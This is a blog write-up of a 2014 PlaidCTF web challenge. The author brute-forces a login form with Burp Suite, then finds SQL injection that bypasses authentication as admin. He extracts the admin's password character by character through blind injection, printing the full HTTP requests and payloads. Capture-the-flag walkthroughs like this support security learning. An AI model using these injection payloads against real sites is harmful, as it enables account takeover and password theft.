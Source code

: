 ```yaml
---
id: 1873
title: 'PlaidCTF writeup for Web-100 &#8211; PolygonShifter (blind sql injection)'
date: '2014-04-17T12:55:06-05:00'
author: ron
layout: post
guid: 'https://blog.skullsecurity.org/?p=1873'
permalink: /2014/plaidctf-writeup-for-web-100-blind-sql-injection
categories:
    - hacking
    - plaidctf-2014
    - tools
---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!
<!--more-->
This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

<pre>
<span class="htmlTag">&lt;</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">&quot;/S1tl90gme2GJ67epbZz9&quot;</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">&quot;POST&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Username<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;text&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;lK1TFqrcp3fvIRSg8V7T&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;L1UIVbxzFD8wUUo8SaJH&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Password<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;password&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;LmmURBa3S5NRYBwzHXhC&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">&quot;primary large&quot;</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;submit&quot;</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">&quot;Login&quot;</span><span class="htmlTag">&gt;</span>
<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">form</span><span class="htmlEndTag">&gt;</span>
</pre>

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided&mdash;incorrectly&mdash;that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=§password§</span>
</pre>

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". *facepalm*, it's sql injection!

So, I tried logging in with:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or 1=1-- </li>
</ul>

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or username='admin'-- </li>
</ul>

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
</pre>

To clean it up, it's basically:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')</li>
</ul>

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

<ul>
  <li>$1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)</li>
  <li>$2 :: custom set, a-z A-Z 0-9 + symbols</li>
</ul>

Then I let it run, filtered for 'Hello', and got the following results:

<img src='https://blogdata.skullsecurity.org/polygonshifter-solution.png'>

Boom! Arrange those properly and you have your password. :)

